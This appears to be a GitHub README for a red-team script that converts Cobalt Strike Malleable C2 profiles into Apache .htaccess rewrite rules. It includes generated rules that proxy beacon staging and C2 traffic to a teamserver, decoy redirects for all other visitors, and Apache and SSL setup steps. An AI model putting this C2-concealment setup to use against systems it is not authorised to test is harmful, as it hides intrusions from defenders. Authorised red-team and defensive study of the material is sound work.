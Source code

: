 # Convert Cobalt Strike profiles to Apache mod_rewrite .htaccess files to support HTTP C2 Redirection

This is a quick script that converts a Cobalt Strike profile to a functional mod_rewrite .htaccess file to support HTTP proxy redirection from Apache to a  CobaltStrike teamserver.

You should test and tune the output as needed before depolying

__Updates and Features__

 - Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string. Result: Only requests to valid C2 URIs with a specified UA string will be proxied to the Team Server by default.
 - Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
 - Supports the most recent Cobalt Strike 3.10 profile features
 - HTTP or HTTPS proxying to the Cobalt Strike Team Server
 - HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to .htaccess
3) Modify as needed
4) Use script with your Apache redirector

## Example

    python cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -d HTTPS://GOHERE
    #### Save the following as .htaccess in the root web directory
    
    ########################################
    ## .htaccess START 
    RewriteEngine On

    ## (Optional)
    ## Scripted Web Delivery 
    ## Uncomment and adjust as needed
    #RewriteCond %{REQUEST_URI} ^/css/style1.css?$
    #RewriteCond %{HTTP_USER_AGENT} ^$
    #RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Default Beacon Staging Support (/1234)
    RewriteCond %{REQUEST_URI} ^/..../?$
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
    ## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
    ## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
    ## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
    ## Profile URIs
    RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
    ## Profile UserAgent
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
    RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

    ## Redirect all other traffic here (Optional)
    RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

    ## .htaccess END
    ########################################

----------------------------------------------
## Apache Rewrite Setup and Tips

__Enable Rewrite and Proxy__

    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

Note: https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

__SSL support requires the following in the site config__

    # Enable SSL
    SSLEngine On
    # Enable Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generate by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off

__HTACCESS__
If you plan on using mod_rewrite in .htaccess files, you also need to enable the use of .htaccess files by changing `AllowOverride None` to `AllowOverride All`. For the default website, edit /etc/apache2/sites-available/default

    <Directory /var/www/>
            Options Indexes FollowSymLinks MultiViews
            AllowOverride All
            Order allow,deny
            allow from all
    </Directory>

## References

[cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

[Apache mod_rewrite](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)

[Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)
